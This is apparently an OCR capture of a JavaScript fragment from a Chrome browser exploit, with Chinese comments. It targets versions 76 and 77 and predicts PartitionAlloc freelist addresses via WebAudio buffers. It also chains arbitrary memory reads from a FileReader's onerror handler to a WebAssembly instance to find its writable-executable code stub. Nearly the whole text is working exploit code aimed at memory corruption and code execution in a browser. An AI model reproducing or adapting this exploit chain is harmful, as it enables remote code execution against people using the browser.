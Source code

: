 ```JavaScript
	var wasmFuncA = undefined;
	let result = await WebAssembly.instantiateStreaming(fetch(wasmUrl), {})
	wasmFuncA = result.instance.exports.main;

	// 预测 fileReaderLoader 地址
	let fileReader = new FileReader;
	let fileReaderLoaderSize = 0x140;

	let fileReaderLoaderPtr = getPartitionPageFreeListHeadEntryBySlotSize(freelist,
		iirFilterFeedforwardAllocationPtr, fileReaderLoaderSize);
	if (!fileReaderLoaderPtr)
		return;

	fileReader.readAsArrayBuffer(new Blob([]));

	let fileReaderLoaderTestPtr =
		getPartitionPageFreeListHeadEntryBySlotSize(freelist,
		iirFilterFeedforwardAllocationPtr, fileReaderLoaderSize);
	if (fileReaderLoaderPtr == fileReaderLoaderTestPtr)
		return;

	// 设置 fileReader 的 onerror 事件处理
	fileReader.onerror = wasmFuncA;

	// fileReaderLoader -> fileReader -> onerror/wasmFuncA -> RWX
	let fileReaderPtr = read64(freelist,
		fileReaderLoaderPtr + BigInt(0x10)) - BigInt(0x68);
	let vectorPtr = read64(freelist, fileReaderPtr + BigInt(0x28));
  let registeredEventListenerPtr = read64(freelist, vectorPtr);
  let eventListenerPtr = read64(freelist, registeredEventListenerPtr);
  let eventHandlerPtr = read64(freelist, eventListenerPtr + BigInt(0x8));
  let jsFunctionObjPtr = read64(freelist, eventHandlerPtr + BigInt(0x8));

  let jsFunctionPtr = read64(freelist, jsFunctionObjPtr) - BigInt(1);
  let sharedFuncInfoPtr = read64(freelist,
	  jsFunctionPtr + BigInt(0x18)) - BigInt(1);
  let wasmExportedFunctionDataPtr = read64(freelist,
	  sharedFuncInfoPtr + BigInt(0x8)) - BigInt(1);
  let wasmInstancePtr = read64(freelist,
	  wasmExportedFunctionDataPtr + BigInt(0x10)) - BigInt(1);
	 
  let stubAddrFieldOffset = undefined;
  switch (majorVersion) {
    case 77:
      stubAddrFieldOffset = BigInt(0x8) * BigInt(16);
      break;

    case 76:
      stubAddrFieldOffset = BigInt(0x8) * BigInt(17);
      break;
  }
  let stubAddr = read64(freelist, wasmInstancePtr + stubAddrFieldOffset);

	// 预测 ArrayBuffer 的地址
  let arrayBufferSize = 0x20;
  let arrayBufferPtr = getPartitionPageFreeListHeadEntryBySlotSize(freelist, iirFilterFeedforwardAllocationPtr, arrayBufferSize);
  if (!arrayBufferPtr)
    return;

  let audioBuffer = audioCtx.createBuffer(1, 0x400, 6000);
  gcPreventer.push(audioBuffer);

```